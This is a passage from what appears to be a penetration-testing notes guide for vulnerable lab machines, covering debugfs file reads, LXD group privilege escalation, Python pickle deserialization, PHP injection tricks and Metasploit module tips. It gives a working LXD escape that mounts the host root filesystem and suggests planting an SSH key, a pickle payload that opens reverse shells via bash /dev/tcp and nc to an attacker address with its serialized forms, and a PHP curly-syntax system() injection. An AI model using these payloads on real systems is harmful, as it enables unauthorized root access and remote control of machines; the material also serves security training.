 debugfs:  ls
 2790777 (12) .   32641 (12) ..   2790778 (12) dir1   2790781 (16) file1
 2790782 (4044) file2

List the files with a long listing
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Format is:

* Field 1:  Inode number.
* Field 2:  First one or two digits is the type of node:
 * 2 = Character device
 * 4 = Directory
 * 6 = Block device
 * 10 = Regular file
 * 12 = Symbolic link
 * The Last four digits are the Linux permissions
* Field 3: Owner uid
* Field 4: Group gid
* Field 5: Size in bytes.
* Field 6: Date
* Field 7: Time of last creation.
* Field 8: Filename.

::

 debugfs:  ls -l
 2790777  40700   2605   2601    4096  5-Nov-2001 15:30 .
  32641   40755   2605   2601    4096  5-Nov-2001 14:25 ..
 2790778  40700   2605   2601    4096  5-Nov-2001 12:43 dir1
 2790781 100600   2605   2601      14  5-Nov-2001 15:29 file1
 2790782 100600   2605   2601      14  5-Nov-2001 15:30 file2

Dump the contents of file1
^^^^^^^^^^^^^^^^^^^^^^^^^^

::

 debugfs: cat file1
 This is file1

Dump an inode to a file
^^^^^^^^^^^^^^^^^^^^^^^

Same as cat, but to a file and using inode number instead of the file name.

::

 debugfs: dump <2790782> file1-debugfs

LXD
---

The below has been taken from `LXD-Escape <https://reboare.github.io/lxd/lxd-escape.html>`_

LXD is Ubuntu’s container manager utilising linux containers. It could be considered to act in the same sphere as docker. The lxd group should be considered harmful in the same way the docker group is. Under no circumstances should a user in a local container be given access to the lxd group.

Exploiting
^^^^^^^^^^

::

 ubuntu@ubuntu:~$ lxc init ubuntu:16.04 test -c security.privileged=true 
 Creating test 

 ubuntu@ubuntu:~$ lxc config device add test whatever disk source=/ path=/mnt/root recursive=true 
 Device whatever added to test 

 ubuntu@ubuntu:~$ lxc start test 
 ubuntu@ubuntu:~$ lxc exec test bash

Here we have created an lxc container, assigned it security privileges and mounted the full disk under /mnt/root

::

 ubuntu@ubuntu:~$ lxc exec test bash 
 root@test:~# cd /mnt/root 
 root@test:/mnt/root# ls 
 bin   cdrom  etc   initrd.img  lib64       media  opt   root  sbin  srv  tmp  var 
 boot  dev    home  lib         lost+found  mnt    proc  run   snap  sys  usr  vmlinuz 

 root@test:/mnt/root# cd root 
 root@test:/mnt/root/root# ls 
 root@test:/mnt/root/root# touch ICanDoWhatever 
 root@test:/mnt/root/root# exit 
 exit 

At this point, we can write a ssh public key to the root/.ssh folder and use that to access the machine.

.. _A5-Coding-Languages-Tricks:

Appendix-V Coding Languages Tricks
==================================

Python 
------

Pickle
^^^^^^

If a website is using pickle to serialize and de-serialize the requests and probably using a unsafe way like 

::

  cPickle.loads(data)

The pickle website say *Warning: The pickle module is not intended to be secure against erroneous or maliciously constructed data. Never unpickle data received from an untrusted or unauthenticated source.*

we may use

::

  class Shell_code(object):
  def __reduce__(self):
          return (os.system,('/bin/bash -i >& /dev/tcp/"Client IP"/"Listening PORT" 0>&1',))
     or   return (os.system,('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|/bin/nc 10.10.14.XX 4444 >/tmp/f',))
  shell = cPickle.dumps(Shell_code())

if we print shell variable above, it would look something like below if python version 2 is used

::

 cposix
 system
 p1
 (S'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|/bin/nc 10.10.14.XX 4444 >/tmp/f'
 p2
 tp3
 Rp4
 .

and in python version 3

::

 b'\x80\x03cposix\nsystem\nq\x00XT\x00\x00\x00/rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|/bin/nc 10.10.14.26 4444 >/tmp/fq\x01\x85q\x02Rq\x03.'

Pickle is imported in python 3 as

::
 
 import _pickle as cPickle

and in python 2

::

 import cPickle


Now, we can test locally that our code for shell is working by unpickling by

::

 #data.txt containing our Pickled data
 import cPickle
 path = "/tmp/data.txt"
 data = open(path, "rb").read()
 item = cPickle.loads(data)

Refer `Understanding Python pickling and how to use it securely <https://www.synopsys.com/blogs/software-security/python-pickling/>`_ , `Sour Pickles <http://media.blackhat.com/bh-us-11/Slaviero/BH_US_11_Slaviero_Sour_Pickles_WP.pdf>`_ and `Exploiting misuse of Python's "pickle" <https://blog.nelhage.com/2011/03/exploiting-pickle/>`_

.. Tip :: It might be good idea to use requests (in case of Website) or socket (in case of listener) to send the payload.

PHP
---

Preg_Replace
^^^^^^^^^^^^

PHP's preg_replace() function which can lead to RCE. It's deprecated in later revisions (PHP >= 5.5.0). If you think there's a pattern which is replaced in a text, refer `The unexpected dangers of preg_replace() <https://bitquark.co.uk/blog/2013/07/23/the_unexpected_dangers_of_preg_replace>`_ and `Exploiting PHP PCRE Functions <http://www.madirish.net/402>`_ Under most circumstances the PCRE engine is completely safe. It does, however, provide the /e modifier which allows evaluation of PHP code in the preg_replace function. This can be extremely dangerous if used carelessly.

Complex Curly Syntax
^^^^^^^^^^^^^^^^^^^^

PHP has `Complex (curly) syntax <http://www.php.net/manual/en/language.types.string.php#language.types.string.parsing.complex>`_ The Complex Syntax to allow evaluation of our own code in double quotes. 
  
Example
  
:: 
  
  $use_me = "ls -lah"
  {${system($use_me)}}

This works because the outside curly brackets say give the contents of a variable/method/has to start with $, which is why we need the inner ${} to act as a variable. {${system($use_me)}} means, give the contents of ${system($use_me)} which in turn means use the contents of a variable named by the output of system($use_me).

Xdebug
^^^^^^

If you find uncommon headers such as xdebug in the response, it might be possible to get a reverse shell. Xdebug is a php extension that allows to debug php pages, remotely by using DGBp protocol. Code execution is possible via injections that exist in eval or property_set xdebug commands. Refer `xpwn - exploiting xdebug enabled servers <https://redshark1802.com/blog/2015/11/13/xpwn-exploiting-xdebug-enabled-servers/>`_  and `xdebug-shell <https://github.com/gteissier/xdebug-shell>`_ 

Type Juggling/ Magic Bytes
^^^^^^^^^^^^^^^^^^^^^^^^^^

Type juggling in PHP is caused by an issue of loose operations versus strict operations. Strict comparisons will compare both the data values and the types associated to them. A loose comparison will use context to understand what type the data is. According to PHP documentation for comparison operations at `Language Operators Comparison <http://php.net/manual/en/language.operators.comparison.php>`_

*If you compare a number with a string or the comparison involves numerical strings, then each string is converted to a number and the comparison performed numerically. These rules also apply to the switch statement. The type conversion does not take place when the comparison is === or !== as this involves comparing the type as well as the value.*

So, if == or != is used to do the comparison or the password checks and if md5(of a string/number) results in a hash starting with 0e, there might be a possibility of bug.

Refer `Magic Hashes <https://www.whitehatsec.com/blog/magic-hashes/>`_, `PHP Weak Typing Woes; With Some Pontification about Code and Pen Testing <https://pen-testing.sans.org/blog/2014/12/18/php-weak-typing-woes-with-some-pontification-about-code-and-pen-testing#>`_ and `Writing Exploits For Exotic Bug Classes: 
PHP Type Juggling <http://turbochaos.blogspot.com/2013/08/exploiting-exotic-bugs-php-type-juggling.html>`_ 

LUA
---

In Lua, when a developer uses unvalidated user data to run operating system commands via the os.execute() or io.popen() Lua functions, there can be command injection. A good paper to read is `Lua Web Application Security Vulnerabilities <http://seclists.org/fulldisclosure/2014/May/128>`_

Appendix-VI Metasploit Module Writing?
======================================

.. Note :: This section is still under progress.

* Creating a new module? create it in your home directory 

  ::

   mkdir -p $HOME/.msf4/modules/exploits

 If you are using auxiliary or post modules, or are writing payloads you'll want to mkdir those as well.

* Made some changes and want metasploit to pick up those changes? use

  ::

   msf > reload_all

* Refer `Loading External Modules <https://github.com/rapid7/metasploit-framework/wiki/Loading-External-Modules>`_ for the above two points.

* Want to edit a module or see the source code of it ? use edit in msfconsole (after selecting the module i.e use module_name)
* Want to write some variable value (like the payload/ mof file) to a file? use

 ::

  File.Write('/path/to/file', 'Some glorious content')

* Refer `Documentation for rapid7/metasploit-framework <https://www.rubydoc.info/github/rapid7/metasploit-framework/>`_
* Refer `How to use WbemExec for a write privilege attack on Windows <https://github.com/rapid7/metasploit-framework/wiki/How-to-use-WbemExec-for-a-write-privilege-attack-on-Windows>`_ and `How to get started with writing an exploit <https://github.com/rapid7/metasploit-framework/wiki/How-to-get-started-with-writing-an-exploit>`_

Changelog
=========
.. git_changelog::
  :filename_filter: docs/LFC-VulnerableMachines.rst

.. disqus::
